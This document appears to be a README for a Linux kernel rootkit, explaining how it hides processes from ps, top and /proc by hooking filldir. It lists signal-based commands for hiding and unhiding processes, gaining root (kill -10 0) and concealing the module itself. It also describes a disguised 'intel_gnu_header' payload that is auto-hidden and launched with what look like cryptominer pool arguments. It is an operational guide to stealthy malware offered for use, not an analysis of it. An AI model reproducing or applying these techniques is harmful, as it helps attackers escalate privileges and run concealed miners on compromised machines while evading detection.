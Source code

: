 # Process Hiding Usage Guide

This rootkit now supports hiding processes **by name** from system tools like `ps`, `top`, `htop`, and `/proc` directory listings.

## How Process Hiding Works

The rootkit hooks the `filldir` and `filldir64` functions to intercept directory listings in `/proc`. When a process name matches any entry in the hidden process list, its directory entry in `/proc` is filtered out, making the process invisible to most userspace tools.

The system checks both:
1. **Process name** (comm) - the executable name
2. **Command line** - the full command with arguments

## Usage Commands

### Hide Current Process
```bash
# Hide the current process by its name
kill -34 0
```

### Hide Any Process by PID
```bash
# Hide process with PID 656 (e.g., qemu-ga)
kill -34 656

# This will hide ALL processes with the same name as PID 656
```

### Unhide Current Process
```bash
# Unhide the current process by its name
kill -35 0
```

### Unhide Any Process by PID
```bash
# Unhide process with PID 656 (e.g., qemu-ga)
kill -35 656

# This will unhide ALL processes with the same name as PID 656
```

### Other Existing Commands
```bash
# Get root privileges
kill -10 0

# Hide/show the rootkit module
kill -12 0
```

## Example: Hiding qemu-ga Process

To hide the qemu-ga process like:
```
root 656 0.0 0.1 80712 4224 ? Ssl 22:44 0:00 /usr/sbin/qemu-ga
```

**Hide by PID:**
```bash
# Hide by PID (this hides ALL qemu-ga processes)
kill -34 656

# Verify it's hidden
ps aux | grep qemu-ga    # Should show no results
ls /proc/656             # Should show "No such file or directory"
```

**To unhide:**
```bash
kill -35 656
```

## Configuration

- **Maximum Hidden Process Names**: 10 (configurable via `HIDE_PROCESS_LIST_SIZE` in config.h)
- **Maximum Process Name Length**: 256 characters (configurable via `MAX_PROCESS_NAME_LEN`)
- **Signal Numbers**: 
  - SIGRTMIN (34): Hide current process by name
  - SIGRTMIN1 (35): Unhide current process by name

## Auto-Hidden Processes

The rootkit automatically hides:
- **intel_gnu_header** - The main payload process (auto-hidden on module load)

## Example Usage Scenario

1. Start the intel_gnu_header process:
   ```bash
   /usr/bin/intel_gnu_header -o test.com:443 -u 44fdsasdf -k --tls -p prolay &
   echo $!  # Note the PID, e.g., 1234
   ```

2. **The process is automatically hidden** when the rootkit module loads.

3. Verify it's hidden:
   ```bash
   ps aux | grep intel_gnu_header    # Should not show the process
   ps aux | grep test.com            # Should not show the process
   ls /proc/1234                     # Should show "No such file or directory"
   ```

4. **To make intel_gnu_header visible again:**
   ```bash
   # Unhide by PID (if you know the PID)
   kill -35 1234
   
   # Or unhide from within the intel_gnu_header process itself
   kill -35 0
   
   # Verify it's now visible
   ps aux | grep intel_gnu_header    # Should show the process
   ```

5. **To hide it again:**
   ```bash
   # Hide by PID
   kill -34 1234
   
   # Or hide from within the process
   kill -34 0
   ```

4. To hide other processes:
   ```bash
   # From within the process you want to hide:
   kill -34 0
   
   # Or hide by PID:
   kill -34 <PID>
   ```

5. To unhide a process:
   ```bash
   # From within the hidden process:
   kill -35 0
   
   # Or unhide by PID:
   kill -35 <PID>
   ```

## Technical Details

- The rootkit maintains an internal list of hidden process names
- Process hiding works by filtering `/proc` directory entries based on process names
- Hidden processes are still running and functional, just invisible to most tools
- The system uses **substring matching** - if any hidden name is found in the process name or command line, it's hidden
- The hiding affects: `ps`, `top`, `htop`, `/proc` listings, and other tools that read from `/proc`

## Advanced Usage

You can hide processes with specific patterns:
- Hide by executable name: `intel_gnu_header`
- Hide by partial command: `test.com:443`
- Hide by argument: `44fdsasdf`

## Limitations

- Maximum of 10 process names can be hidden simultaneously
- Process names are limited to 256 characters
- Some advanced forensic tools might still detect hidden processes
- Process hiding only affects `/proc` directory listings, not kernel-level process tracking
- Signal-based hiding only works for the current process (kill -34 0)
